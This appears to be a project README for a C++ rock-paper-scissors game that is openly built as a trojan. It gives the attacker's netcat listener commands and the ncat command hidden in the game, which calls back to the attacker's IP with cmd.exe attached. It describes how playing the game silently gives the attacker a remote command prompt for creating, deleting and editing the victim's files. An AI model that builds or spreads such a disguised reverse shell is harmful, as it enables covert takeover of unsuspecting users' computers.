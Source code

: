 # rock-paper-scissor
This is a rock paper scissor game written in c++ that uses reverse shell to establish connection back to attacker's machine from the target machine.

# Get-started
### Attacker's machine

linux: nc -lnvp 2000
<p>windows: ncat -lnvp 87 </p>
<p>N.B: 2000 is the port number used for listening to incoming connections</p>

### Target's machine
<p>NB: The command to be executed are embedded in the game and are for windows users who have ncat installed already</P>
<p>windows: ncat [attacker's ip] 87 -e cmd.exe</p>

### How it works

The attacker execute the above command to listen for incoming connection and when the user on the target machine opens the game 
and start to play the commands execute themselves without the user acknowledgement and an attacker get connected to target machine and gain access 
to the command prompt. After that, the attacker can carry out some operations to the targeted computer like create files, delete files, edit files,...

### Play The Game

To play the rock,paper,scissor game you first click on the executable file and then follow the instructions required to play the game
that are prompted after clicking on the executable file.
